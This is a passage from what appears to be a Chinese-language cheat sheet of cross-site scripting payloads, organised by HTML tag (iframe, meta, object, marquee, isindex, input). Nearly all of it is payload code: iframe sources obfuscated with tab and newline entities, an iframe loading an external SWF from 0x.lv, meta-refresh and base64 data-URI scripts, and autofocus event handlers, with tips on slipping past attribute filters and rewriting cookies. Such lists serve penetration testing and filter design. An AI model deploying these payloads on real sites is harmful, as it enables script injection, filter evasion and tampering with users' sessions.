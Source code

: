 > 
```
<iframe src=j&NewLine;&Tab;a&NewLine;&Tab;&Tab;v&NewLine;&Tab;&Tab;&Tab;a&NewLine;&Tab;&Tab;&Tab;&Tab;s&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;c&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;i&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;p&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&colon;a&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;l&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;e&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%28&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;1&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%29></iframe>   把javascript代码每个字符每隔一定的TAB分开

<iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe> 

<iframe SRC="http://0x.lv/xss.swf"></iframe> 

<IFRAME SRC="javascript:alert(1);"></IFRAME> 

<iframe/onload=alert(53)></iframe>

```

* meta标签
> 很多时候，在做xss测试时，你会发现你的昵称，文章标题跑到meta标签里。那么你只需要跳出当前属性再添加http-equiv="refresh",就可以构造一个有效的xss payload了。当然一些猥琐流的玩法，会通过给http-equiv设置set-cookie来，进一步重新设置cookie来干一些猥琐的事情 

> 
```
<meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>? 
<meta http-equiv="refresh" content="0; url=data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">

```

* object标签
> 和a标签的href属性玩法是一样的，不过优点是无须交互。
> `<object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgiS0NGIik8L3NjcmlwdD4=></object>`

* marquee标签
> `<marquee  onstart="alert('sometext')"></marquee>`

* isindex标签
> 第二个例子，值得我们注意一的是在一些只针对属性做了过滤的webapp当中，action很可能就是漏网之鱼。
> 
```
<isindex type=image src=1 onerror=alert(1)> 
<isindex action=javascript:alert(1) type=image>
```

* input标签 
> 没有什么特别之处，通过event来调用js。和之前的button的例子一样通过 autofocus来达到无须交互即可弹窗的效果。在这里使用到了onblur是希望大家学会举一反三。
> 
```
<input onfocus=javascript:alert(1) autofocus> 
<input onblur=javascript:alert(1) autofocus><input autofocus>
```
